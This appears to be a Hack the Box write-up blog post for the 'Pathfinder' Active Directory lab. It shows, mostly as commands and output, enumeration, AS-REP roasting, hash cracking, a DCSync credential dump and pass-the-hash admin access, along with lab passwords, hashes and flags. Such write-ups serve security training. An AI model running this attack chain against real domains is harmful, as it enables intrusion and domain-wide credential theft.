 +++
title = "Hack the Box: Pathfinder"
date = 2023-01-22
description = "Hack the Box: Pathfinder"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: Pathfinder

<!--more-->

# Pathfinder

## Enumeration

`masscan -p 1-65535 10.10.10.30 -e tun0 --rate=1000`

Port 88 is typically associated with Kerberos and port 389 with LDAP, which indicates that this is a Domain Controller. We note that WinRM is enabled on port 5985.

Using the credentials we obtained in a previous machine; `sandra:Password1234!`

`bloodhound-python -d megacorp.local -u sandra -p "Password1234\!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30`

`sudo NEO4J_HOME=/usr/share/java/neo4j neo4j start`

Connection with neo4j:neo4j then neo4j:bloodhound

## Foothold

```
/usr/bin/GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:6f4bdd147809926ee4f67179ae627cb6$7fe338746bc4b367f627c1588608c30ec756fc0a70e4a01e0f500198ec3b21f30cd54cc4d654af2e378bb8a633eea59d671af12e5d6cd7af29f4dfb1ca3c8003ee335be6292b88f9ed9cca5c8cf6113228194ee60d57d88468e5571205aac97837d2ca413cf1f3032fa2833962dfbb36db611a56f2c26d4d5e9c5203d5bcd6e9cc15476468e57de0f2baa8a89d97f5d9ba16a781624d45c4851940e315f798b4593a7df20bb660ef694c60ce9a818c2e7f585d7dd0388b8e6bed079eedd3398276a506f5bf1ec72148e8e2c0d73b440226dd7fc014d92ffe213810b9ef9d763c55be153c7cc3d2763c8c06fbc2baf3b7
```

```
john hash -wordlist=/usr/share/wordlists/rockyou.txt
```

It is now possible to access the server as svc_bes using WinRM:

```
/usr/bin/evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
```

```
*Evil-WinRM* PS C:\Users\svc_bes\Documents> cat ../Desktop/user.txt
b05fb166688a8603d970c6d033f637f1
```

## Privilege Escalation

```
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:88c7041ce91766c8753c54708ecd3632:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:1628d4b5188101405a82cf1efc1e0b7d046a065673413b28741e59cea8968e04
PATHFINDER$:aes128-cts-hmac-sha1-96:4a7171e3d79a34e6693415742d20f008
PATHFINDER$:des-cbc-md5:e364941fc7ef5dd3
[*] Cleaning up... 
```

Now use psexec with the admin hashes:

```
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```

```
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
ee613b2d048303e5fd4ac6647d944645
```
